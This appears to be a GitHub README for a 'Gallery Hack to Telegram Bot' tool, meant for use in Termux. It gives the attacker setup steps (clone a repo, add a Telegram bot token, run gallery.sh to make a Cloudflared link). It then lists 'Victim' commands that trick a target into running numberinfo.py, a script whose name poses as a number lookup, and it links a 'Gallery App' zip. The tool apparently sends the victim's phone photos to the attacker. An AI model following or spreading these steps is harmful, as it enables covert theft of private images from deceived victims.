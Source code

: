 <h1 align="center">
  <u>Gallery Hack to Telegram Bot</u>  
  <br>
  <a href="https://youtu.be/M7EJ5-BoOvs">🎥 Demo Video</a>
</h1>

### [TERMUX] Install All Comments

```
pkg update && pkg upgrade -y
```
```
pkg install -y git openssh python wget
```
```
git clone https://github.com/Master-xyx/BestA.git
```
```
cd BestA
```

### Telegram Bot Search 🔍 BotFather 

`@BotFather`

Search Chat I'd 

`@userinfobot`


### Edit numberinfo.py file add Token and Chat I'd

```
nano numberinfo.py
```

### Save file CTRL x y Enter 

save and next Commend
### public Link 🖇️ 
```
bash gallery.sh
```

### Victim Termux Commands 
```
pkg update && pkg upgrade
pkg install python
pkg install python-pip
pkg install git
pkg install curl
pkg install wget
```
# Send Cloudflared Tunnel Link 👍 
### Victim Run code
```
python numberinfo.py
```

## 📌 Contact Me  

<a href="https://youtube.com/@hackedtips">
  <img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white" alt="YouTube">
</a>  
<br>  

<a href="https://chat.whatsapp.com/Cd6PaWtaqKsJsU6gBD8d0P?mode=ems_copy_t">
  <img src="https://img.shields.io/badge/WhatsApp-25D366?style=for-the-badge&logo=whatsapp&logoColor=white" alt="WhatsApp">
</a>

### <a href="https://github.com/Ktmooo00/FB/raw/refs/heads/main/Gallery.zip">Gallery App Download</a>

